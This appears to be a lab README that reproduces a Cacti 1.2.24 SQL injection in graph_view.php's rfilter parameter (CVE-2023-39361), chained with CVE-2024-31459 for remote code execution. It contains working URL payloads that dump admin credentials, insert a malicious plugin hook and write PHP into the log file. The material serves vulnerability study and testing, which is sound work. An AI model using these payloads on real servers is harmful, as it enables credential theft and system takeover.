 # Cacti rfilter SQL Injection Leads to RCE (CVE-2023-39361/CVE-2024-31459)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality, providing network managers with an intuitive interface to network data.

In Cacti versions 1.2.24 and earlier, a critical vulnerability exists in graph_view.php that allows guest users to perform SQL injection via the 'rfilter' parameter. When guest access is enabled, attackers can potentially cause significant damage, including remote code execution.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## Environment Setup

Execute the following command to start a Cacti 1.2.24 server:

```
docker compose up -d
```

After the server starts, you can access the Cacti interface at `http://your-ip:8080`. The default credentials are admin/admin.

Log in as admin and follow the initialization instructions. Simply click the "Next" button repeatedly until you see the success page.

Before exploiting the vulnerability without authentication, you must enable guest access. Log in as admin, navigate to `Configuration -> Authentication`, and enable the guest user:

![](1.png)

## Vulnerability Reproduction

The vulnerability exists in the `grow_right_pane_tree` function in `graph_view.php`. When the 'action' parameter is set to 'tree_content', the user input ('rfilter' parameter) is validated through the `html_validate_tree_vars` function, but this validation only ensures that the input is a valid regular expression and doesn't prevent SQL injection.

The SQL injection occurs because the rfilter parameter is directly inserted into a SQL query with double quotes, allowing attackers to escape the query context and inject malicious SQL code.

To exploit this vulnerability, send a request to the graph_view.php endpoint with the following parameters:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

The output reveals database information and admin account password:

![](2.png)

Since Cacti supports stacked queries, you can leverage this vulnerability along with [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) to achieve local file inclusion.

First, add a new plugin hook that points to the `log/cacti.log` file:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

Then, write PHP code to the `log/cacti.log` file using an error-based SQL injection:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

Now, the PHPINFO function will execute and display when accessing the login page, confirming successful remote code execution:

![](3.png)
